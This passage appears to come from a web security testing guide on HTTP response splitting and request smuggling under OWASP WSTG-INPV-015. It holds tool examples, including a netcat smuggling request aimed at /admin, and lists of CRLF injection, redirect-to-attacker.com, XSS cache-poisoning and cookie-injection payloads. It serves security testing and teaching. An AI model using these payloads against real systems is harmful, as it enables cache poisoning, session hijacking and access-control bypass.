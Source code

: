       curl -i -H "Host: example.com" --data $'GET / HTTP/1.1\r\nHost: example.com\r\n\r\n' http://example.com
      # HTTPie
      http --raw $'GET / HTTP/1.1\r\nHost: example.com\r\n\r\n' http://example.com
      ```

- **Postman**: GUI tool for testing HTTP payloads in APIs or forms.
  - Download from [Postman](https://www.postman.com/downloads/).
  - Send raw HTTP requests with smuggling payloads.
  - **Tip**: Use Collections for batch testing.

- **Browser Developer Tools (Chrome/Firefox)**: Inspects responses to splitting or smuggling payloads.
  - Access: Press `F12` or `Ctrl+Shift+I`.
  - Use Network tab to analyze headers and Elements tab for injected content.
  - **Note**: Firefox’s 2025 header inspection enhancements improve debugging.

- **Netcat (nc)**: Tests raw HTTP connections for smuggling.
  - Install on Linux:
    ```bash
    sudo apt install netcat
    ```
  - Install on Windows/Mac: Download from [nmap.org](https://nmap.org/ncat/).
  - Example:
    ```bash
    echo -e "POST / HTTP/1.1\nHost: example.com\nTransfer-Encoding: chunked\n\n5\nSMUGG\n0\n\nGET /admin HTTP/1.1\nHost: example.com\n\n" | nc example.com 80
    ```

## Testing Methodology

This methodology follows OWASP’s black-box and gray-box approaches for WSTG-INPV-015, testing HTTP Splitting and Smuggling vulnerabilities across vulnerable endpoints, response splitting, cache poisoning, request smuggling (CL.TE and TE.CL), and header injection.

### Common HTTP Splitting and Smuggling Payloads

Below is a list of common payloads to test for HTTP Splitting and Smuggling vulnerabilities. Start with simple payloads and escalate based on responses. Use with caution in controlled environments to avoid cache poisoning or proxy disruption.

- **HTTP Splitting Payloads**:
  - `%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0a%0d%0a<html>malicious</html>` (Injects new response)
  - `%0d%0aSet-Cookie:%20session=malicious` (Injects cookie)
  - `\r\nX-Injected: malicious` (Header injection)
  - `%0aLocation:%20http://attacker.com` (Redirect injection)

- **Cache Poisoning Payloads**:
  - `%0d%0aContent-Type:%20text/html%0d%0a%0d%0a<script>alert(1)</script>` (Poisons cache with XSS)
  - `%0d%0aCache-Control:%20public,%20max-age=31536000` (Forces cache storage)
  - `/poison.css%0d%0aContent-Type:%20text/css%0d%0a%0d%0abody{background:malicious}` (CSS poisoning)
  - `%0d%0aETag:%20malicious` (Cache manipulation)
